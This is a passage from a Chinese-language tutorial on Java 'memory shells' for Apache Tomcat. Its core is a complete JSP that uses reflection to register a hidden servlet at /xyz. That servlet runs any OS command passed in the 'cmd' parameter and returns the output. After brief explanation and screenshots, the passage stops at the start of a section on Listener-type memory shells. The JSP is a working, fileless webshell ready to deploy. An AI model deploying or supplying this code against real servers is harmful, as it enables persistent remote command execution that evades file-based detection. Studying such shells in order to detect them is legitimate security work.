 servlet 型的内存马无法使所有请求都经过恶意代码，只有访问我们设定的 url 才能触发

完整内存马
=====

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %><%@ page import = "org.apache.catalina.core.ApplicationContext"%><%@ page import = "org.apache.catalina.core.StandardContext"%><%@ page import = "javax.servlet.*"%><%@ page import = "java.io.IOException"%><%@ page import = "java.lang.reflect.Field"%><%    class ServletDemo implements Servlet{        @Override        public void init(ServletConfig config) throws ServletException {}        @Override        public String getServletInfo() {return null;}        @Override        public void destroy() {}    public ServletConfig getServletConfig() {return null;}        @Override        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {            String cmd = servletRequest.getParameter("cmd");            if (cmd != null) {                Process process = Runtime.getRuntime().exec(cmd);                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(                        new java.io.InputStreamReader(process.getInputStream()));                StringBuilder stringBuilder = new StringBuilder();                String line;                while ((line = bufferedReader.readLine()) != null) {                    stringBuilder.append(line + '\n');                }                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());                servletResponse.getOutputStream().flush();                servletResponse.getOutputStream().close();                return;            }        }    }%><%    ServletContext servletContext =  request.getSession().getServletContext();    Field appctx = servletContext.getClass().getDeclaredField("context");    appctx.setAccessible(true);    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);    Field stdctx = applicationContext.getClass().getDeclaredField("context");    stdctx.setAccessible(true);    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);    ServletDemo demo = new ServletDemo();    org.apache.catalina.Wrapper demoWrapper = standardContext.createWrapper();//设置Servlet名等    demoWrapper.setName("xyz");    demoWrapper.setLoadOnStartup(1);    demoWrapper.setServlet(demo);    demoWrapper.setServletClass(demo.getClass().getName());    standardContext.addChild(demoWrapper);//设置ServletMap    standardContext.addServletMapping("/xyz", "xyz");    out.println("inject servlet success!");%>
```

使用示例

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyzibNibj36CHSSudETw4pzic4icoLJNNQxamfrJjGibibyrianuwHZJ7y0XQ0JCjAmzmwEOWMwZd7sqiaIiaQ/640?wx_fmt=png)

如果在当前 web 根目录则不需要寻找上一级目录

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyzibNibj36CHSSudETw4pzic4icqu5Ia55Y0YcDu5fBTjeHkGmxOAcNRMv4ia9Sduia7lpUQZjv3lKbfiag/640?wx_fmt=png)

Listener 型内存马原理
===============

Listener 是 javaweb 中的监听器，监听某一个 java 对象的方法调用或属性改变，当被监听对象发生上述事件后，监听器某个方法立即被执行。

Listener 内存马是通过动态注册一个 Listener，其监听到某个参数传入时，则将参数用于命令执行，由于是动态注册的，所以这个 Listener 没有文件实体，存在于内存中，随着 tomcat 重启而消失。

Listener 型内存马实现
===============

Listener 部分
===========
